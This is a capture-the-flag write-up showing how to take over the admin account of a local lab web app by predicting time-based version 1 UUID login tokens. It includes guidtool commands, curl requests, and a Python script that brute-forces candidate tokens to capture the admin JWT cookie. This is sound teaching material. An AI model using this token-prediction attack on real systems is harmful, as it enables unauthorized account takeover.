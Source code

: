 # I need a GUIDe



## Objective

We need to get the `admin` account 

## Route mapping

After exploring the possiblities, we can see that we're able to:

Create an account (POST /register)
Login (POST /login)

Create a "one time link connection" (GET /reset_token/:username)

And use this token to connect (GET /connect/:token)
This route set our cookie with a jwt token and redirect us to `/`

## Idea
We're going to connect as `admin` user, with a one time token.

When we try to generate a link for user `admin`, token is not sent in the form. So, we need to guess the token

## Token analyse

This token look like an GUID (and the hint chall name can confirm it)

Let's analyse it with guidtool

```sh
~guidtool -i e088e200-934f-11ed-a74e-bf2986d3b4e9
UUID version: 1
UUID time: 2023-01-13 14:37:59.712000
UUID timestamp: 138929134797120000
UUID node: 210185076585705
UUID MAC address: bf:29:86:d3:b4:e9
UUID clock sequence: 10062
```

We are facing a GUID version 1. It's a time based generation. And it's also predictable

## Exploit

We're going to generate a link for user admin and predict the token

First, we need to generate a token for our user. I've created a user before, `eteck`

`curl http://localhost:4000/reset_token/eteck`
```
{"message":"success","for_user":"eteck","info":"noEmail","token":"cf7dfa80-9350-11ed-a74e-bf2986d3b4e9","generatedAt":"2023-01-13 14:44:40"}
```

Token generated: cf7dfa80-9350-11ed-a74e-bf2986d3b4e9

Then, let's generated a token for `admin`

`curl http://localhost:4000/reset_token/admin`
```
{"message":"success","for_user":"admin","info":"email","generatedAt":"2023-01-13 14:44:53"}
```

Since the user `admin` has an email, the token is not returned in the response.

There is the exact generation time in the response: 2023-01-13 14:44:53

We're going to use guidtool to generate token for this date. more info: https://github.com/intruder-io/guidtool#creating-guids

`guidtool -t '2023-01-13 14:44:53' cf7dfa80-9350-11ed-a74e-bf2986d3b4e9 > tokens.txt`

We need to test all the generated token, until we found the admin token

note: if the token is not present, we can try again this exploit or use the param `-p` in guidtool command, to generate more token

```python
import requests

f = open("tokens.txt", "r")
for line in f:
    token = line.strip()
    r = requests.get(f'http://localhost:4000/connect/{token}')
    if r.status_code != 401:
        print(r.cookies) # jwt token is in the cookie
        exit()
```